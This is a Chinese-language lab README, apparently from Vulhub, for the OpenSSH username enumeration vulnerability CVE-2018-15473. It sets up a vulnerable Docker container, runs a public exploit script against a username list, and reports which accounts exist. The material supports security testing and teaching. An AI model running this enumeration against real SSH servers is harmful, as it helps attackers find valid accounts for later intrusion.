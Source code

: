 # OpenSSH 用户名枚举漏洞（CVE-2018-15473）

OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机中。

参考链接：

- http://openwall.com/lists/oss-security/2018/08/15/5
- https://github.com/Rhynorater/CVE-2018-15473-Exploit
- https://www.anquanke.com/post/id/157607

## 漏洞环境

执行如下命令编译及启动一个运行OpenSSH的容器：

```
docker-compose build
docker-compose up -d
```

环境启动后，我们在客户端执行`ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@your-ip -p20022`，输入密码`vulhub`，即可登录到容器中。

## 漏洞复现

使用[CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)，枚举字典中的用户名：

```
python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt your-ip
```

![](1.png)

可见，`root`、`example`、`vulhub`、`nobody`是存在的用户，`rootInvalid`、`user`、`phithon`是不存在的用户。